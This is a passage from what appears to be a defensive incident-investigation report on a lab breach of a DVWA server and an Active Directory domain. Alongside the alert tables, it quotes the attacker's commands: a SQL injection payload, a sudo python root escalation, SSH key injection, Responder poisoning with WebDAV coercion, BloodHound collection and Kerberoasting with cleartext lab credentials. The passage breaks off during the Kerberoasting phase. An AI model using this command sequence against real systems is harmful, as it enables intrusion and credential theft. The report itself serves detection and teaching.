










# Comprehensive DFIR Deep-Dive Investigation: Enterprise Network Breach, Active Directory Forest Takeover & Dual-Endpoint Ransomware/Defacement

**Document ID:** `IR-2026-1018-DEEPDIVE`  
**Incident Reference:** `INC-2026-1018-ALPHA`  
**Classification:** True Positive — Critical Enterprise Security Incident (Severity 10.0 / Level 15)  
**Lead Investigator:** SOC Lab Lead DFIR Analyst  
**Investigation Framework:** NIST SP 800-61r2 / MITRE ATT&CK Enterprise Framework  
**Incident Scope:** DMZ Web Pivot (`DVWA`), Windows Server 2022 Domain Controller (`PC-DC`), Windows 10 Workstation (`Win10User`)  
**Attack Dwell Time:** `2026-10-18T17:10:08+0530` to `2026-10-18T18:24:32+0530` (1 Hour, 14 Minutes, 24 Seconds)  
**Cross-Linked Incident Records:**
- [Initial Alert Triage & Triage Register](Initial-Triage%20and%20Investigation.md) *(Preliminary analysis of 46 TheHive alerts, triage register, and 6-window chronological timeline)*
- [Immediate Operational Containment Execution](Immediate-Containment-Execution.md) *(Executed 7-action tactical containment, Velociraptor VQL commands, and host verification)*

---

> [!IMPORTANT]
> ### Forensic Analyst Photographic Evidence Notice
> The complete forensic repository contains **68 verified SIEM alert screenshots** cataloged under [`../assets/screenshots/investigation/wazuh-alerts/`](../assets/screenshots/investigation/wazuh-alerts/).  
> To preserve narrative clarity and prevent extreme visual document bloat, this report directly embeds **14 primary milestone turning points** (the critical breakthroughs in the kill chain). All remaining **54 supporting, secondary, and baseline telemetry artifacts** are cataloged within structured **Forensic Telemetry & Screenshot Reference Tables** throughout this report, complete with direct clickable file links to inspect the raw artifacts.

---

## 1. Executive Summary & Forensic Escalation Context

### 1.1 Escalation from Initial Triage
This deep-dive investigation was initiated following the completion of preliminary triage documented in [Initial-Triage and Investigation.md](Initial-Triage%20and%20Investigation.md). The initial triage identified disparate high-severity alarms triggered by network intrusion detection sensors (Suricata) and host agents (Wazuh, Sysmon, Auditd). While initial triage established that an external adversary (`192.168.232.135`) was active against our perimeter, it treated alerts in isolated operational windows.

Subsequent deep-dive forensic correlation of the raw SIEM logs ([`../assets/files/alerts/wazuh_alerts.csv`](../assets/files/alerts/wazuh_alerts.csv)), host file integrity logs, audit daemon traces, and Active Directory security logs has uncovered an **unbroken, highly coordinated multi-stage intrusion campaign**. 



### 1.2 Enterprise Breach Scope & Impact Summary
Over a span of **74 minutes**, the adversary progressed from external perimeter reconnaissance to complete, irrevocable compromise of our enterprise Active Directory forest:
1. **Perimeter Breach & Root Elevation:** Exploited SQL Injection and arbitrary file upload vulnerabilities on the external DMZ web server (`192.168.56.30`). Capitalized on an **egregious internal sudoers misconfiguration** (`www-data` holding passwordless sudo execution for Python) to immediately escalate to `root`.
2. **Network Pivot & Credential Harvesting:** Injected an SSH public key for out-of-band persistence, weaponized the Linux server as an internal broadcast poisoner (Responder), coerced authentication from an internal Windows 10 workstation via WebDAV, and harvested the domain user `win10` NTLMv2 hash.
3. **Active Directory Forest Takeover:** Ingested the entire AD graph using BloodHound, executed Kerberoasting against service account `HANK_SHERMAN`, abused excessive service account privileges to perform a **DCSync directory replication**, extracted the `krbtgt` password hash, and forged an enterprise **Kerberos Golden Ticket**.
4. **Data Exfiltration:** Harvested Active Directory user databases, administrative credentials, and proprietary documents into temporary staging directories, transferring them to the pivot host and exfiltrating them via an anomalous burst of SCP SSH sessions.
5. **Simulated Ransomware Impact & Dual Defacement:** Using Impacket WMI (`wmiexec.py`), the adversary executed simultaneous remote registry modifications to deface desktops on both the Domain Controller and workstation, deployed simulated XOR-encrypted ransomware payloads with extortion notes (`README_HACKED.txt`), and forced both systems to reboot.

---

## 2. End-to-End Attack Chain Storyline

### Phase 1: External Perimeter Reconnaissance & Web Application Breach
**Timestamp Range:** `17:10:08` – `17:21:40`  
**Threat Vector:** External Port Scanning, Web Application Vulnerability Fuzzing, SQL Injection  
**Target Asset:** `192.168.56.30` (DVWA Web Application / Ubuntu Linux)  

The intrusion commenced at `17:10:08` when adversary IP `192.168.232.135` initiated automated port discovery against our perimeter. Suricata NIDS immediately alerted on anomalous TCP probes targeting PostgreSQL port 5432, followed by classic Nmap SYN stealth sweeps (`-sS`) and Nmap Scripting Engine (NSE) HTTP probes.

```
192.168.232.135 -> 192.168.56.30:5432 [TCP SYN] (Suricata SID 2010939: ET SCAN Suspicious inbound to PostgreSQL)
192.168.232.135 -> 192.168.56.30:80   [OPTIONS / HTTP/1.1] (User-Agent: Nmap Scripting Engine)
```

The adversary deployed automated web scanners (Nikto and Dirbuster), generating hundreds of HTTP requests testing for known exploits, including Shellshock (`() { :;}; echo...`), cross-site scripting (XSS), and configuration file enumeration (`/php.ini`). Having identified the web application running Damn Vulnerable Web Application (DVWA), the attacker launched a multi-threaded Python brute-force script (`python-requests`) against `/login.php`, testing default administrative credentials.


*Figure 1: Suricata Alert confirming multi-port SYN sweep from 192.168.232.135.*


*Figure 2: High-frequency authentication attempts against login.php flagged by python-requests User-Agent signature.*

After gaining web application access, the attacker navigated directly to the SQL injection endpoint (`/vulnerabilities/sqli/`). At `17:19:06`, the attacker submitted an inline SQL injection payload:
```sql
1' UNION SELECT user, password FROM users #
```
Suricata fired rule `2010963` (`ET WEB_SERVER SELECT USER SQL Injection Attempt in URI`), and Wazuh logged rule `31106` (`A web attack returned code 200 (success)`). This request dumped the application user database, yielding password hashes for administrative accounts.


*Figure 3: Suricata payload capture logging SELECT USER SQL injection extracting database credentials.*

#### Telemetry & Evidence Reference (Phase 1)
| Artifact File Link | Timestamp | Sensor | Event / Rule Description | Key Analytical Finding |
|:---|:---|:---|:---|:---|
| [`wzb-01-recon-postgres-5432-scan.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-01-recon-postgres-5432-scan.jpg) | `17:10:08` | Suricata | ET SCAN Suspicious inbound to PostgreSQL port 5432 | External adversary initial probe targeting database port |
| [`wzb-02-triage-filter-attacker-ip.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-02-triage-filter-attacker-ip.jpg) | `17:10:13` | Wazuh UI | DQL Query: `src_ip: 192.168.232.135` | SIEM filter isolating all attacker-generated alerts |
| [`wzb-03-triage-attack-timeline-overview.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-03-triage-attack-timeline-overview.jpg) | `17:10:13` | Wazuh UI | Attack Timeline Discover Dashboard | Macro timeline overview showing initial scanning surge |
| [`wzb-04-recon-suricata-nmap-syn-scan.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-04-recon-suricata-nmap-syn-scan.jpg) | `17:10:14` | Suricata | POSSBL PORT SCAN (NMAP -sS) | **Embedded Milestone (Fig 1)**: Nmap stealth scan sweep |
| [`wzb-05-recon-dvwa-nmap-nse-probes.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-05-recon-dvwa-nmap-nse-probes.jpg) | `17:10:17` | DVWA Log | Apache Access Log: `OPTIONS / HTTP/1.1 302` | Nmap Scripting Engine (NSE) web fingerprinting probes |
| [`wzb-06-recon-nikto-shellshock-probes.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-06-recon-nikto-shellshock-probes.jpg) | `17:11:06` | DVWA Host | Wazuh Rule `31101` / Shellshock Attack Detected | Nikto vulnerability scanner testing remote command headers |
| [`wzb-07-recon-suricata-xss-attempt.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-07-recon-suricata-xss-attempt.jpg) | `17:11:08` | Suricata | ET WEB_SERVER Script tag in URI (XSS Attempt) | Cross-site scripting payload fuzzing in GET parameters |
| [`wzb-08-recon-dvwa-php-ini-probe.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-08-recon-dvwa-php-ini-probe.jpg) | `17:11:15` | DVWA Log | Apache Access Log: `GET /php.ini HTTP/1.1 404` | Fuzzing web root for sensitive configuration files |
| [`wzb-09-bruteforce-dvwa-login-endpoint.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-09-bruteforce-dvwa-login-endpoint.jpg) | `17:12:19` | DVWA Log | `DVWA: [302] [/login.php]` | Crawler isolating login endpoint before credential stuffing |
| [`wzb-10-bruteforce-python-requests-login.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-10-bruteforce-python-requests-login.jpg) | `17:12:21` | Suricata | ET INFO User-Agent (python-requests) | **Embedded Milestone (Fig 2)**: Programmatic brute force |
| [`wzb-11-sqli-suricata-select-user.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-11-sqli-suricata-select-user.jpg) | `17:19:06` | Suricata | ET WEB_SERVER SELECT USER SQL Injection | **Embedded Milestone (Fig 3)**: Successful SQL database extraction |

---

### Phase 2: Execution & The Critical Organization Flaw (Sudo Escalation)
**Timestamp Range:** `17:21:40` – `17:23:55`  
**Threat Vector:** Arbitrary File Upload (Webshell), Reverse Shell, Sudoers NOPASSWD Abuse  
**Target Asset:** `192.168.56.30` (DVWA Web Server)  

Having acquired web credentials, the attacker bypassed upload filters on `/vulnerabilities/upload/` at `17:21:40` by transmitting an HTTP `POST` multipart form containing a PHP webshell (`shell.php`).


*Figure 4: DVWA web server access log capturing POST upload of malicious webshell.*

The webshell was placed directly into `/var/www/html/dvwa/hackable/uploads/shell.php`. The attacker verified code execution by querying:
```http
GET /dvwa/hackable/uploads/shell.php?cmd=id HTTP/1.1
```
Auditd captured process execution (`SYSCALL=execve exe=/usr/bin/id auid=unset uid=www-data`). The attacker then triggered an outbound TCP reverse shell connecting back to `192.168.232.135:4444`. Upon connecting, the attacker stabilized the shell by executing `stty sane` and setting `export TERM=xterm`.

#### The Critical Organizational Vulnerability: Sudoers Misconfiguration
At this juncture, the attacker had only standard web-service privileges (`uid=33(www-data)`). Under secure design, a compromised web application is constrained to a restricted service account.

However, the attacker ran an immediate audit of sudo permissions:
```bash
sudo -l
```
This revealed an **unforgivable configuration error in `/etc/sudoers`**:
```sudoers
www-data ALL=(ALL) NOPASSWD: /usr/bin/python3
```
Because `www-data` had unconstrained root sudo rights to execute the Python binary without password verification, the adversary escaped the web sandbox in **less than 10 seconds** by executing:
```bash
sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```
At `17:23:45`, Wazuh logged rule `5402` (`Successful sudo to ROOT executed`). The attacker was now `root` on the DMZ Linux host.


*Figure 5: Wazuh PAM Alert 5402 logging instant root privilege escalation via sudo python3.*

#### Telemetry & Evidence Reference (Phase 2)
| Artifact File Link | Timestamp | Sensor | Event / Rule Description | Key Analytical Finding |
|:---|:---|:---|:---|:---|
| [`wzb-12-webshell-dvwa-post-upload.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-12-webshell-dvwa-post-upload.jpg) | `17:21:40` | DVWA Log | POST /vulnerabilities/upload/ HTTP/1.1 200 | **Embedded Milestone (Fig 4)**: Webshell payload uploaded |
| [`wzb-13-webshell-auditd-id-command.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-13-webshell-auditd-id-command.jpg) | `17:21:53` | Auditd | Blacklisted/suspicious command `/usr/bin/id` | Webshell initial execution validation by www-data |
| [`wzb-14-webshell-suricata-bin-sh-injection.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-14-webshell-suricata-bin-sh-injection.jpg) | `17:21:55` | Suricata | ET WEB_SERVER /bin/sh in URI Possible Shell | URI command injection invoking `/bin/sh` |
| [`wzb-15-revshell-auditd-stty-sane.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-15-revshell-auditd-stty-sane.jpg) | `17:22:14` | Auditd | Rule `web_process_creation`: `stty sane`, `gawk` | Reverse shell spawned; terminal stabilization |
| [`wzb-16-revshell-auditd-export-term.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-16-revshell-auditd-export-term.jpg) | `17:22:15` | Auditd | Bashcmd: `export TERM=xterm` | Reverse shell environment configuration |
| [`wzb-17-privesc-pam-sudo-python-root.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-17-privesc-pam-sudo-python-root.jpg) | `17:23:45` | PAM / Wazuh | Rule `5402`: Successful sudo to ROOT executed | **Embedded Milestone (Fig 5)**: Critical sudoers root escalation |
| [`wzb-18-privesc-auditd-sudo-l.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-18-privesc-auditd-sudo-l.jpg) | `17:23:46` | Auditd | Bashcmd: `sudo -l` | Attacker auditing sudo privileges prior to exploit |

---

### Phase 3: Pivot Persistence & Internal Lateral Discovery
**Timestamp Range:** `17:24:00` – `17:34:30`  
**Threat Vector:** SSH Key Injection, Network Interface Enumeration, Outbound Subnet Scanning  
**Target Asset:** `192.168.56.30` (Pivot Host) $\to$ Internal Subnet `192.168.56.0/24`  

Operating as `root`, the attacker immediately recognized that reverse shells are unstable and web application processes are subject to web-server restarts. To establish robust, out-of-band administrative persistence, the attacker appended their personal SSH public key directly into the root account's authorized keys file:
```bash
echo "ssh-ed25519 AAAAC3NzaC11ZD11NTE5AAAAIACi7TGj+OejU781Wt/16/im7sLXOR1jben7h94DmDJ5 kali@kali" >> /root/.ssh/authorized_keys
```
At `17:26:27`, the attacker disconnected the reverse shell and established a direct SSH session from `192.168.232.135` into `root@192.168.56.30`. Wazuh logged Rule `5715` (`sshd: authentication success`).


*Figure 6: Dual alert capturing public key injection into authorized_keys and immediate root SSH authentication.*

With persistent root access secured, the attacker turned the web server into a beachhead to map internal enterprise architecture:
```bash
hostname && id && ip a
ip route
cat /proc/net/arp
```
The ARP table and routing checks revealed that interface `ens33` was dual-homed onto an internal private network: **`192.168.56.0/24`**. The attacker launched internal Nmap scans and outbound SSH sweeps (`ET SCAN Potential SSH Scan OUTBOUND`) from `192.168.56.30`, discovering two high-value Windows targets:
* **`192.168.56.10`**: Active Directory Domain Controller (`PC-DC.ad.lab`)
* **`192.168.56.20`**: Corporate Domain Workstation (`Win10.ad.lab`)

#### Telemetry & Evidence Reference (Phase 3)
| Artifact File Link | Timestamp | Sensor | Event / Rule Description | Key Analytical Finding |
|:---|:---|:---|:---|:---|
| [`wzb-19-ssh-persist-auditd-authorized-keys.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-19-ssh-persist-auditd-authorized-keys.jpg) | `17:26:27` | Auditd | `/root/.ssh/authorized_keys` modified | File write event logging modification of root SSH keys |
| [`wzb-20-ssh-persist-key-inject-sshd-login.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-20-ssh-persist-key-inject-sshd-login.jpg) | `17:26:28` | Wazuh / sshd | Rule `5715`: `sshd: authentication success` | **Embedded Milestone (Fig 6)**: Injected key root login |
| [`wzb-21-discovery-auditd-network-arp.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-21-discovery-auditd-network-arp.jpg) | `17:28:43` | Auditd | Bashcmd: `hostname`, `id`, `ip route`, `cat /proc/net/arp` | Internal network topology discovery from root shell |
| [`wzb-22-discovery-suricata-internal-nmap.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-22-discovery-suricata-internal-nmap.jpg) | `17:31:19` | Suricata | POSSBL PORT SCAN (NMAP -sX / -sS) on `ens37` | Internal port scanning detected traversing internal interface |
| [`wzb-23-discovery-suricata-internal-tcp-sweep.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-23-discovery-suricata-internal-tcp-sweep.jpg) | `17:31:49` | Suricata | Suricata Alert: Internal TCP SYN sweeps | Subnet-wide port sweeps targeting internal 192.168.56.0/24 |
| [`wzb-24-discovery-suricata-outbound-ssh-scan.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-24-discovery-suricata-outbound-ssh-scan.jpg) | `17:34:18` | Suricata | ET SCAN Potential SSH Scan OUTBOUND | Outbound SSH reconnaissance originating from pivot host |

---

### Phase 4: Identity Harvesting & Broadcast Poisoning
**Timestamp Range:** `17:34:30` – `18:01:02`  
**Threat Vector:** LLMNR/NBT-NS Broadcast Poisoning (Responder), Coerced WebDAV Auth, BloodHound AD Recon  
**Target Asset:** `192.168.56.20` (`Win10.ad.lab`) $\to$ `192.168.56.30` (Pivot) $\to$ `192.168.56.10` (`PC-DC`)  

Realizing that direct access to the Windows domain required valid Active Directory credentials, the attacker weaponized the DMZ pivot host as an internal broadcast poisoner.
1. **Staging & Network Reconfiguration:** The attacker unpacked Responder into `/opt/Responder`. Because Ubuntu's local DNS resolver (`systemd-resolved`) binds to UDP port 53, the attacker modified `/etc/systemd/resolved.conf` to disable `DNSStubListener`, freeing ports 53 and 5355.
2. **Launching the Poisoner:** At `17:37:37`, the attacker started Responder:
   ```bash
   python3 /opt/Responder/Responder.py -I ens33 -wd
   ```


*Figure 7: Auditd bashcmd log capturing Responder daemon startup listening on internal interface ens33.*

3. **Coerced Authentication:** At `17:42:02`, a coerced authentication event was triggered on workstation `Win10.ad.lab` (`192.168.56.20`). Windows Event ID 4688 captured `rundll32.exe` invoking WebDAV authentication against an unreachable resource:
   ```cmd
   rundll32.exe C:\Windows\System32\davclnt.dll,DavSetCookie nonexistent http://nonexistent/share
   ```


*Figure 8: Windows Event ID 4688 on Win10 workstation capturing rundll32 DavSetCookie WebDAV execution.*

When the workstation failed to resolve `nonexistent` via DNS, it fell back to LLMNR/NBT-NS multicast broadcast. Responder answered the broadcast, poisoned the resolution, forced the workstation to negotiate an SMB connection to `192.168.56.30`, and captured the **NTLMv2 challenge-response hash** for domain user **`AD.LAB\win10`**.

At `17:47:38`, the attacker copied the captured hash to `/tmp/win10.hash`:
```bash
cp /opt/Responder/logs/SMB-NTLMv2-SSP-fe80::...txt /tmp/win10.hash
```


*Figure 9: Auditd bashcmd log recording the copy of the harvested NetNTLMv2 hash into /tmp/win10.hash.*

#### Detection Gap Note: Offline Hash Cracking (DG-11)
The subsequent cracking of the `win10` NTLMv2 hash (`win10:Secur3Lab!`) occurred entirely **offline** on the adversary's local Kali Linux machine using Hashcat. Because offline cracking generates no network packets and no host log entries on enterprise assets, zero SIEM alerts were generated. This is an expected and documented detection gap (**DG-11**).

4. **BloodHound Active Directory Ingestion:** Armed with cracked domain credentials (`win10` : `Secur3Lab!`), the attacker executed `bloodhound-python` from the pivot host at `18:01:02`:
   ```bash
   python3 -m bloodhound -u win10 -p 'Secur3Lab!' -d ad.lab -dc PC-DC.ad.lab -ns 192.168.56.10 -c All
   ```
   Domain Controller logs recorded remote logon Type 3 events (EID 4624) from `192.168.56.30` querying LDAP and SAMR to map all domain trusts, group memberships, and shortest attack paths to Domain Admin.

#### Telemetry & Evidence Reference (Phase 4)
| Artifact File Link | Timestamp | Sensor | Event / Rule Description | Key Analytical Finding |
|:---|:---|:---|:---|:---|
| [`wzb-25-responder-auditd-tar-unpack.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-25-responder-auditd-tar-unpack.jpg) | `17:34:43` | Auditd | Bashcmd: `tar -xzf Responder.tar.gz` | Unpacking poisoning toolkit in `/opt/Responder` |
| [`wzb-26-responder-auditd-systemd-resolved-stub.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-26-responder-auditd-systemd-resolved-stub.jpg) | `17:35:10` | Auditd | Bashcmd: `sed -i DNSStubListener=no` | Disabling DNS stub resolver to free UDP 53/5355 |
| [`wzb-27-responder-auditd-daemon-start.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-27-responder-auditd-daemon-start.jpg) | `17:37:37` | Auditd | Bashcmd: `python3 Responder.py -I ens33 -wd` | **Embedded Milestone (Fig 7)**: Responder daemon active |
| [`wzb-28-responder-win10-rundll32-davsetcookie.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-28-responder-win10-rundll32-davsetcookie.jpg) | `17:42:02` | Win10 Log | Windows EID `4688`: `rundll32.exe DavSetCookie` | **Embedded Milestone (Fig 8)**: Coerced auth on workstation |
| [`wzb-29-responder-auditd-ntlmv2-hash-harvested.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-29-responder-auditd-ntlmv2-hash-harvested.jpg) | `17:47:38` | Auditd | Bashcmd: `cp .../SMB-NTLMv2-... /tmp/win10.hash` | **Embedded Milestone (Fig 9)**: NetNTLMv2 hash harvested |
| [`wzb-30-responder-auditd-resolved-restart.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-30-responder-auditd-resolved-restart.jpg) | `17:48:00` | Auditd | Bashcmd: `systemctl restart systemd-resolved` | Restarting resolver service after socket rebinding |
| [`wzb-31-bloodhound-auditd-python-ingest.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-31-bloodhound-auditd-python-ingest.jpg) | `18:01:02` | Auditd | Bashcmd: `python3 -m bloodhound -u win10 ... -c All` | BloodHound AD graph ingestion using win10 user |
| [`wzb-32-bloodhound-dc-eid4624-win10-ldap.jpg`](../assets/screenshots/investigation/wazuh-alerts/wzb-32-bloodhound-dc-eid4624-win10-ldap.jpg) | `18:01:02` | Domain Controller | Windows EID `4624`: Logon Type 3 Kerberos win10 | LDAP/SAMR enumeration queries received on DC |

---

### Phase 5: Active Directory Forest Domination
**Timestamp Range:** `18:01:14` – `18:07:00`  
**Threat Vector:** Kerberoasting, DCSync Directory Replication, Kerberos Golden Ticket Forgery  
**Target Asset:** `192.168.56.10` (`PC-DC.ad.lab` - Domain Controller)  

BloodHound ingestion highlighted an immediate privilege escalation path: a service account with a Service Principal Name (SPN) named **`HANK_SHERMAN`** belonged to an administrative delegation path.

1. **Kerberoasting:** At `18:01:14`, the attacker executed Impacket `GetUserSPNs.py`:
   ```bash
   python3 /usr/local/bin/GetUserSPNs.py ad.lab/win10:'Secur3Lab!' -dc-ip 192.168.56.10 -request -outputfile /tmp/hank.hash
   ```
   Suricata detected Kerberos TGS-REQ traffic (SID `2019922`: `ET Open Kerberos TGS-REQ`), and the TGS ticket hash for `HANK_SHERMAN` was extracted to `/tmp/hank.hash`.


*Figure 10: Auditd bashcmd log capturing GetUserSPNs.py execution dumping TGS ticket for HANK_SHERMAN.*

